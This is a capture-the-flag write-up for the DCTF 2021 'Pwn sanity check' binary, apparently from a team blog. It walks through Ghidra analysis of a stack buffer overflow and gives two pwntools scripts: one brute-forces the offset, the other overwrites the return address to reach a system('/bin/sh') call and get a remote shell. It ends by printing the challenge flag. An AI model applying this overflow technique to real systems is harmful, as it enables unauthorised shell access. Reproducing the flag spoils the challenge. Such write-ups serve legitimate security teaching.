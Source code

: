 ```yaml
---
title: Pwn sanity check
layout: post
author: v1per
date: 2021-05-17 18:53:00 +0530
type: Pwn
difficulty: easy
prompt: This should take about 1337 seconds to solve. nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
---
```


First, I used the file command on the **pwn_sanity_check** file. This is the output I got:

![](/images/v1per/dctfpsc1.png)

So, we know that it's a 64-bit LSB executable. Next, I opened the binary file usng **Ghidra**.
The main function looked like this:

![](/images/v1per/dctfpsc2.png)

I opened the **vuln()** function, and found this:

![](/images/v1per/dctfpsc3.png)

Here, I saw that the input is being taken using 'fgets' and stored in 'local_48'. Seeing this, the first thought which came to my mind was that this could be a buffer overflow challenge. In the next line I saw that if the value of 'local_c' is equal to '-0x21523f22', it prints out a text and calls the 'shell()' function. Let's open that:

![](/images/v1per/dctfpsc4.png)

It prints out that it is spawing the '/bin/sh process', but it doesn't really do anything except printing that. So, I guess that's a deadend.

Looking around further, I found a 'win()' function which looked interesting:

![](/images/v1per/dctfpsc5.png)

This function takes two parameters as input and compares their values and actually spawns a shell. Now, here I thought - what if we could bypass the if conditions and directly go to the 'system("/bin/sh");' line?  
I took note of the address of the line just before the line in which the shell was being spawned: **0x004006d6**

![](/images/v1per/dctfpsc6.png)

Now, we need to find the offset at which our control enters the win function, I used this python script to find it:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

n=0
while(True):
	error=False
	payload=b'A'*n+p64(0x004006d6)

	r=remote(host,port)
	r.sendline(payload)
	r.recvline()
	r.recvline()

	try:
		s=r.recvline()
	except:
		error=True

	if error:
		print(n,'Trying...')
	else:
		print(n,'is the offset')
		break
	n+=1
```

From this script, the offset came out to be **72**. Now, it's time to finally find our flag.
I ran this script:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

payload=b'A'*72+p64(0x004006d6)

r=remote(host,port)
r.sendline(payload)
r.interactive()
```

And, yay! I got the shell.
I typed in 'ls' and saw that there's a flag.txt file in there, so i did a 'cat flag.txt' and got the flag!  
```dctf{Ju5t_m0v3_0n}```

![](/images/v1per/dctfpsc7.png)
